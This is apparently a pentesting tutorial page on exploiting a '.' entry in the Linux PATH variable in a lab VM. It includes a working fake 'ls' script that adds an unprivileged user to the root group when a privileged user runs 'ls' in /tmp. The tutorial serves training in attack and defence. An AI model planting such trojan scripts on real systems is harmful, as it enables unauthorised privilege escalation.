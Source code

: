 ```yaml
---
title: PATH Variable
layout: default
parent: Linux Misconfigurations
grand_parent: Pentesting
nav_order: 4
---
```


# Misconfigured PATH Variable

## Introduction

The PATH variable in Linux is a set of paths delimited by colons, containing locations where executable binaries are stored. When a user runs a binary that exists in one of these paths listed in the PATH variable, specifying the absolute path is unnecessary.

```bash
user@workstation > echo $PATH
usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin
```

In Linux, typing a single dot (.) in the terminal denotes the current directory. Any program or script in the current directory can be executed by prefixing its name with ./ (e.g., ./script_name). Occasionally, users include the current directory (.) in the PATH variable to execute programs or scripts by simply typing their names. However, this practice can be exploited by attackers to run malicious scripts or binaries.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
user@user-vm:~$ sudo adduser notroot
```

#### 2. Add `.` to PATH variable

Privilege user adding `.` to PATH.

```bash
user@user-vm:/tmp$ PATH=.:${PATH}
user@user-vm:/tmp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin
```

{: .note }
Vulnerability lies on having `.` on the PATH variable.

### **Exploitation**

Our aim is to add the normal user `notroot` as part of `root` group.

#### 1. Switch or Login as 'notroot'

```bash
notroot@user-vm:~$ 
notroot@user-vm:/tmp$ groups
notroot
notroot@user-vm:/tmp$ id
uid=1004(notroot) gid=1004(notroot) groups=1004(notroot)
```
Above shows that `notroot` does not belong to `root` group.

#### 2. Creation of malicious `ls` script.

For this instance, we'll use the `ls` command - we'll create a script named `ls`:

Add a malicious script inside a folder where the privilege user may possibly ran `ls` (e.g. `/tmp/`).

```bash
notroot@user-vm:~$ touch /tmp/ls && chmod +x /tmp/ls
notroot@user-vm:/tmp$ nano ls

GNU nano 6.2
sudo usermod -aG root notroot && /bin/ls
```
For above, we've added the command to add `notroot` user as part of `root` group, then calling the `ls` command.

#### 3. Result

Once the privilege user run `ls` command on `/tmp` it will execute the malicious `ls` script instead of the command `ls`.

```bash
notroot@user-vm:~$ ls
user@user-vm:/tmp$ ls
ls
snap-private-tmp
systemd-private-fdd3c09502864376bf27fe67c10253cf-bluetooth.service-CCvwoL
VMwareDnD
vmware-root_571-4248287365
```
It would still output the `ls` due to the script running the `\bin\ls`, added to it would be the execution of the malicious command adding `notroot` to `root` groups.

Checking the privilege and group of `notroot`:
```bash
notroot@user-vm:/home/user$ groups
notroot root
notroot@user-vm:/home/user$ id
uid=1004(notroot) gid=1004(notroot) groups=1004(notroot),0(root)
```

Above shows that `notroot` is added already to `root` groups upon execution of `ls`.

## Video Demonstration

[<img src="https://img.youtube.com/vi/uNwRFsS4e1U/hqdefault.jpg"
/>](https://www.youtube.com/embed/uNwRFsS4e1U)


## Reference
https://materials.rangeforce.com/tutorial/2019/12/25/Misconfigured-PATH/


